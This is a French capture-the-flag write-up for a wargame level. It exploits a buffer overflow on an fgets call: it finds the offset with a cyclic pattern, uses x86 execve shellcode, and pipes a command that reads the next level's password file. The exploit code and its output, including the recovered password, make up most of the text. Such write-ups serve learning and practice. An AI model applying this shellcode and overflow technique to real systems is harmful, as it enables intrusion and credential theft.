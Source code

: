 1. On remarque le buffer overflow sur le deuxieme fgets. Pour exploiter la faille on passe le nom d'utilisateur attendu en debut de chaine, on remplis le buffer et enfin notre payload.

2. On trouve l'offset
   ```
   r < <(python -c 'print "dat_wil" + "\x90" * (256 - 7) + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"')

   Program received signal SIGSEGV, Segmentation fault.
   0x63413663 in ?? ()
   ```
   > 79

3. On choisi un shellcode
   ```
   \x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
   ```

4. On ecrit l'exploit


```
(python -c '''

user = "dat_wil"
shellcode = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
padding = "X" * (256 - len(user + shellcode) + 79)

print user + shellcode + padding + "\x08\x04\xa0\x47"[::-1]

'''; echo "cat /home/users/level02/.pass" ) | ./level01
```

> PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
